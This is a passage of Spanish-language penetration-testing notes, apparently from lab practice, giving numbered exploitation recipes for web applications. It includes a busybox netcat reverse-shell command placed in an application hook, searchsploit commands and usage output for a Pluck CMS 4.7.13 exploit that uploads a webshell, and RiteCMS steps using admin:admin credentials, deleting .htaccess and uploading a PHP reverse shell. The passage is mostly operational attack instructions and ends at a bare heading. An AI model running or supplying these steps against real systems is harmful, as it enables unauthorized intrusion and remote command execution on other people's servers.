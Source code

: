 y listo hemos accedido

guía:

https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh


o también accedemos a settings y en la parte de hook colocamos exec

y ejecutamos la siguiente rev shell


busybox nc IP-KALI PORT -e /bin/bash

26.- Pluck CMS 4.7.13

searchsploit pluck 4.7.13

searchsploit -m php/webapps/49909.py

forma de uso:

python3 49909.py 192.168.42.195 80 admin "/pluck/"

posible resultado:

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://192.168.42.195:80/pluck//files/shell.phar

accedemos a la ruta:

http://192.168.42.195:80/pluck//files/shell.phar

y se verá una webshell que te permite ejecució remota de comandos.

27.- RITECMS 3.0

La vulnerabilidad pertence a RITECMS 3.1.0

- Nos autenticamos, admin: admin 

- Nos dirijimos http://192.168.42.197/ritedev/admin.php

- luego clic en file manager

- eliminamos el .htaccess en el directory media y en file

- subimos un reverseshell en php

- No ponemos en escucha con netcat por el puerto del reverse shell

- accedmos a  http://192.168.42.197/ritedev/files/rev.php

- Listo estamos dentro

Nota:
- Debemos ver como es la url, el agunos ejemplos no es ritedev sino como ritecms3.0 o otro path

28.- Cockpit web

tiene una terminal para ejecutar comandos en la parte terminal.

29.- musicco 2.0.0

